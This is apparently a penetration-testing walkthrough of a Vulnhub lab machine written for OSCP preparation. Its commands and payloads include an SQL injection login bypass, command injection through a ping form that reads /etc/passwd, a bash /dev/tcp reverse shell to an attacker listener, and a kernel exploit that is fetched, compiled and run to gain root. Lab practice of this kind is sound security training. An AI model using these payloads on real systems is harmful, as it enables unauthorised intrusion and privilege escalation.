 ```yaml
---
published: true
---
```

Vulnhub virtual machine; On the path to OSCP this box offered SQL-injection for login and a client side web application that was able to be manipulated to give a foothold to box. Classic enumeration of box to compile a priv-esc.


----------

Legal Usage:
*The information provided by executeatwill is to be used for educational purposes only. The website creator and/or editor is in no way responsible for any misuse of the information provided. All the information on this website is meant to help the reader develop penetration testing and vulnerability aptitude to prevent attacks discussed. In no way should you use the information to cause any kind of damage directly or indirectly. Information provided by this website is to be regarded from an “*[*ethical hacker*](https://www.dictionary.com/browse/ethical-hacker)*” standpoint. Only preform testing on systems you OWN and/or have expressed written permission. Use information at your own risk.*

*By continued reading, you acknowledge the aforementioned user risk/responsibilities.*


----------


# Enumeration

Find target on network

    netdiscover -r 192.168.56.104

![](https://d2mxuefqeaa7sj.cloudfront.net/s_A66121450A4ACE7CA1EAFDAB4E2C0EBA58B17C1F73A27D4C0B94DF8F7C1BC768_1550535688380_image.png)


Target: 192.168.56.104

Nmap Scan

    nmap -sC -sV -oA nmap/kio2 192.168.56.104

![](https://d2mxuefqeaa7sj.cloudfront.net/s_A66121450A4ACE7CA1EAFDAB4E2C0EBA58B17C1F73A27D4C0B94DF8F7C1BC768_1550535760771_image.png)


searchsploit search

    searchsploit 2.0.52

![](https://d2mxuefqeaa7sj.cloudfront.net/s_A66121450A4ACE7CA1EAFDAB4E2C0EBA58B17C1F73A27D4C0B94DF8F7C1BC768_1550535863685_image.png)


*DoS is not useful in this scenario.*


Navigate to webpage

![](https://d2mxuefqeaa7sj.cloudfront.net/s_A66121450A4ACE7CA1EAFDAB4E2C0EBA58B17C1F73A27D4C0B94DF8F7C1BC768_1550535971455_image.png)


Test for SQL injection
`username: admin' OR '1=1--`

![](https://d2mxuefqeaa7sj.cloudfront.net/s_A66121450A4ACE7CA1EAFDAB4E2C0EBA58B17C1F73A27D4C0B94DF8F7C1BC768_1550536679360_image.png)

![](https://d2mxuefqeaa7sj.cloudfront.net/s_A66121450A4ACE7CA1EAFDAB4E2C0EBA58B17C1F73A27D4C0B94DF8F7C1BC768_1550536701093_image.png)


*Successful injection! We are now face with some sort of client side PING tester.*


Testing a ping for localhost

![](https://d2mxuefqeaa7sj.cloudfront.net/s_A66121450A4ACE7CA1EAFDAB4E2C0EBA58B17C1F73A27D4C0B94DF8F7C1BC768_1550536792128_image.png)


*Looks like we have successful command execution on box.*

# Remote Code Execution

Attempt to grab the passwd file by submitting:

    127.0.0.1; cat /etc/passwd

![](https://d2mxuefqeaa7sj.cloudfront.net/s_A66121450A4ACE7CA1EAFDAB4E2C0EBA58B17C1F73A27D4C0B94DF8F7C1BC768_1550536981458_image.png)


Whoami

    127.0.0.1; whoami

![](https://d2mxuefqeaa7sj.cloudfront.net/s_A66121450A4ACE7CA1EAFDAB4E2C0EBA58B17C1F73A27D4C0B94DF8F7C1BC768_1550537060293_image.png)


*we are ‘apache’.*

# Reverse Shell

Setup Listener on port 9000

    nc -lvnp 9000

![](https://d2mxuefqeaa7sj.cloudfront.net/s_A66121450A4ACE7CA1EAFDAB4E2C0EBA58B17C1F73A27D4C0B94DF8F7C1BC768_1550537230094_image.png)


Attempt to setup a reverse connection with an easy one liner
`/bin/bash -i >& /dev/tcp/[ip_address]/[port] 0>&1`

how it works:
`*bash -i>&*`*: invoke bash with an interactive option*
`*/dev/tcp/[localhost]/9000*`*: redirect the session with the /dev/tcp device file*
`*0>&1*`*: use the standard output and redirect it to the standard input*


![](https://d2mxuefqeaa7sj.cloudfront.net/s_A66121450A4ACE7CA1EAFDAB4E2C0EBA58B17C1F73A27D4C0B94DF8F7C1BC768_1550537329497_image.png)

![](https://d2mxuefqeaa7sj.cloudfront.net/s_A66121450A4ACE7CA1EAFDAB4E2C0EBA58B17C1F73A27D4C0B94DF8F7C1BC768_1550537383681_image.png)


*connection established to box and we are ‘apache’.*

**Upgrade Half Shell to Full Shell**
Test for which python

![](https://d2mxuefqeaa7sj.cloudfront.net/s_A66121450A4ACE7CA1EAFDAB4E2C0EBA58B17C1F73A27D4C0B94DF8F7C1BC768_1550537532715_image.png)

    python -c 'import pty; pty.spawn("/bin/bash")'
    press cntl+z 
    stty raw -echo
    fg (enter)

![](https://d2mxuefqeaa7sj.cloudfront.net/s_A66121450A4ACE7CA1EAFDAB4E2C0EBA58B17C1F73A27D4C0B94DF8F7C1BC768_1550538483696_image.png)


# Priv-Escalation
Investigate the environment

![](https://d2mxuefqeaa7sj.cloudfront.net/s_A66121450A4ACE7CA1EAFDAB4E2C0EBA58B17C1F73A27D4C0B94DF8F7C1BC768_1550538055374_image.png)


*Running CentOS release 4.5 and Linux 2.6.9-55*

check searchsploit for vulnerabilties:

    searchsploit 2.6.x CentOS

![](https://d2mxuefqeaa7sj.cloudfront.net/s_A66121450A4ACE7CA1EAFDAB4E2C0EBA58B17C1F73A27D4C0B94DF8F7C1BC768_1550538460322_image.png)


*Interesting hit with Linux Kernel 2.4.x/2.6.x (CentOS 4.8/5.3 / RHEL 4.8/5.3 / SuSE 10 SP2/11 / Ubuntu 8.10)*

Mirror exploit to directory

    searchsploit -m exploits/linux/local/9545.c

![](https://d2mxuefqeaa7sj.cloudfront.net/s_A66121450A4ACE7CA1EAFDAB4E2C0EBA58B17C1F73A27D4C0B94DF8F7C1BC768_1550538544092_image.png)


*Investigate/search for any random shell code and replace if needed.*

Get file over to target box with a SimpleHTTPServer

    python -m SimpleHTTPServer

Save file to memory of box as a good habit located at: `/dev/shm`

![](https://d2mxuefqeaa7sj.cloudfront.net/s_A66121450A4ACE7CA1EAFDAB4E2C0EBA58B17C1F73A27D4C0B94DF8F7C1BC768_1550538796540_image.png)



Compile on box:

    gcc -o exploit 9545.c

![](https://d2mxuefqeaa7sj.cloudfront.net/s_A66121450A4ACE7CA1EAFDAB4E2C0EBA58B17C1F73A27D4C0B94DF8F7C1BC768_1550538968289_image.png)


Change the chmod of the file `chmod 755 exploit`

# Root
Execute exploit

    ./exploit

![](https://d2mxuefqeaa7sj.cloudfront.net/s_A66121450A4ACE7CA1EAFDAB4E2C0EBA58B17C1F73A27D4C0B94DF8F7C1BC768_1550539029550_image.png)


Bring me the root!

-exec
